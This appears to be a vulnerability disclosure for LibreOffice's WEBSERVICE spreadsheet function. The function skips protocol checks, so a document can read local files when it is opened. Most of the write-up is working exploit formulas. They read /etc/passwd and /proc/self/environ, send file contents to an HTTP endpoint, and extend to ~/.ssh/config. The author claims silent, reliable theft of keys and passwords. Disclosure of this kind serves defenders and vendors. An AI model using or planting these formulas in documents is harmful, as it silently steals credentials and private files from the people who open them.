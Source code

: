 # Vulnerability description

## First part

LibreOffice supports COM.MICROSOFT.WEBSERVICE function:

    https://support.office.com/en-us/article/webservice-function-0546a35a-ecc6-4739-aed7-c0b7ce1562c4

The function is required to obtain data by URL, usually used as:

    =FILTERXML(WEBSERVICE("http://api.openweathermap.org/data/2.5/forecast?q=Copenhagen,dk&mode=xml&units=metric");"number(/weatherdata/forecast/time[2]/temperature/@value)")

In original:

    For protocols that are not supported, such as ftp: // or file: //, WEBSERVICE returns the #VALUE! error value.

In LibreOffice, these restrictions are not implemented.

## Second part

By default the cells are not updated, but if you specify the cell type like ~error, then the cell will be updated when you open document.

# Exploitation

To read file you need just:

    =WEBSERVICE("/etc/passwd")

This function can also be used to send a file:

    =WEBSERVICE("http://localhost:6000/?q=" & WEBSERVICE("/etc/passwd"))

For successful operation, you need to send the files of the current user, so you need to retrieve current user home path.

    =MID(WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")) + 5, SEARCH(CHAR(0), WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")))-FIND("USER=",

Also you can parse other files too, like a ~/.ssh/config or something like that.

For other than LibreOffice Calc formats you just need embed calc object to other document (I checked it works).

# Impact

It is easy to send any files with keys, passwords and anything else. 100% success rate, absolutely silent, support all modern versions of LibreOffice and may be embedded in almost all formats supporting by LO.

# Acknowledgment

Vulnerability was parallely found by me (@jollheef) and Ronnie Goodrich && Andrew Krasichkov according to LibreOffice team notes.
